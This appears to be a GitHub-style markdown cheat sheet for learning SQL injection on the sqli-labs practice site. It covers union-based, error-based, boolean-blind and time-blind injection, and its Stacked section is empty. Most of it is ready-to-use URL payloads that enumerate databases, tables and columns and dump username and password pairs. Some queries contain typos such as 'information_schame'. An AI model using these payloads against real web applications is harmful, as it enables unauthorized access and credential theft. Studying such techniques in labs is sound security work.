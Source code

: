 # SQL Injection

> Before wirting, I want to share a useful learning website about sqli. That [sqli-labs](https://www.cnblogs.com/zhengna/p/12617743.html)

And you are supposed to know the basic of sqli, such as some userful function like "user()","database()","group_concat()", and note that the use
of "#", "--+", etc.

Some useful url encode
1. %20: " "
2. %23: "#"
3. %3a: ":"
4. %7e: "~"
5. %27: "'"
...

# Content
- [1. Union-based](#1-Union-based-Injection)
- [2. Error-based](#2-Error-based-Injection)
- [3. Boolean Blind](#3-Boolean-Blind-Injection)
- [4. Time Blind](#4-Time-Blind-Injection)
- [5. Stacked](#5-Stacked-Injection)

## 1. Union-based Injection

Here are some basic steps of union injection.

### 1.1 Look for the type of closing symbol

See you need to upload the **$id**

You can put "/?id=" + followings:
1. 1 or 1=1--+
2. 1' or 1=1--+
3. 1" or 1=1--+
4. 1) or 1=1--+
5. 1') or 1=1--+
6. 1") or 1=1--+

You can find that the correct closing lead to a normal reflect instead of ERROR.

### 1.2 Ensure the column number

We assume that $id closed by single quote, then use **order** to find the columns.

Try 
```
?id=1' order by 1--+
```
and then 
```
?id=1' order by 2--+
```
until errors. That's the column number.

### 1.3 Check out the display data

Suppose that there is three columns in total.
```
?id=-1' union select 1,2,3 --+
```
If the output contains 2 and 3, we can set payload in position 2 and 3, where will show the data we want.

Note that there is always a **LIMIT 0,1** in the query. And you need to make the select of $id not work.

### 1.4 Blast databases

The current database you are using is **database()**
Use following to show it:
```
?id=-1' union select 1,database(),3 --+
```

If you want to show the all databases, try following:
```
?id=-1' union select 1,group_concat(schema_name),3 from information_schame.schemata --+
```

### 1.5 Blast tables

You always need to know the tables in your current database, blast tables like this:

```
?id=-1' union select 1,group_concat(table_name),3 from information_schame.tables where table_schema=database() --+
```

You can replace the database() with the database name you found in step 4.

### 1.6 Blast columns

Say you want to blast all columns of table "users" in current database. 

```
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users' --+
```

### 1.7 Dump the data

Finally, you got the "id,username,password" columns in table users. 
```
?id=-1' union select 1,group_concat(username, 0x3a, password),3 from users --+
```

## 2. Error-based Injection

### 2.1 floor

```
?id=1' union select 1,count(*),concat(0x3a,(select user()),0x3a) a from information_schema.columns group by a--+
```
Replace the (select user()) to others to upload payload.

### 2.2 Double out of range
```
?id=1' union select (exp(~(select * from (select user())a))),2,3 --+
```
Same as floor, replace the (select user())

### 2.3 *Bigint overflow
```
?id=1' union select 1,(!(select * from (select group_concat(table_name) from information_schema.tables where table_schema=database())a)-~0),3 --+
```
Here 'a' is alias.

### 2.4 *Xpath

There is function called *updatexml* used to update xml doc.
> Usage: updatexml(target_xml_doc, xml_path, content)

```
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1),0x7e),1)--+
```
You can also use group_concat(table_name) without limit 0,1, but notice that updatexml error can only return 32 char once.

Use **substr** to show the full content in several times
```
?id=1' and updatexml(1,substr(concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),30),1)--+
```

## 3. Boolean Blind Injection

### 3.1 string interception

#### 3.1.1 MID

> Usage: mid(column_name, start[, length])
> If don't have length argument, mid will return all content begin with start

Note that the start begin index with 1 while LIMIT begin with 0

```
?id=1' and mid((select tables from information_schema.tables where table_schema=database() LIMIT 0,1),1,1)>'a' --+
```

In some case you may need to use ascii value instead of 'a'.(such as the forbidden of single quote)

Use ord() or ascii() function to compare:

```
?id=1' and ascii(mid((select table_name from information_schema.tables where table_schema=database() LIMIT 0,1),1,1))=101 --+
```

#### 3.1.2 Substr

The usage of substr is same as mid.

#### 3.1.3 left

Similar to mid.
> left(database(),1)>'s'

Use dictionary order to compare:
> left(database(),3)>'us'

### 3.2 regexp injection

Return 1 if match correctly, else 0.

regexp can always use with *if*
> if(expression, epx1, epx2)

if expression right return epx1, else epx2
```
select * from users where id = 1 and 1 = (user() regexp '^us');
select * from users where id = 1 and 1 = (if(user() regexp '^us'),1,0)
```

We match 'user' follow a certain order like this:
'^[a-z]' -> '^u[a-z]' -> '^us[a-z]' -> '^use[a-z]' > '^user[a-z]' > FALSE
```
?id=1' and 1=(select 1 from information_schema.tables where table_schema='securiy' and table_name regexp '^u[a-z]' LIMIT 0,1) --+
```
Note that LIMIT 0,1 is necessary otherwise an (subquery returns more than 1 row) error will occur.

## 4. Time Blind Injection

### 4.1 sleep()

> sleep() function always use with if

```
?id=1' and if(ascii(substr(database(),1,1))=115,1,sleep(5))--+
```

method 2: use benchmark()

## 5. Stacked Injection







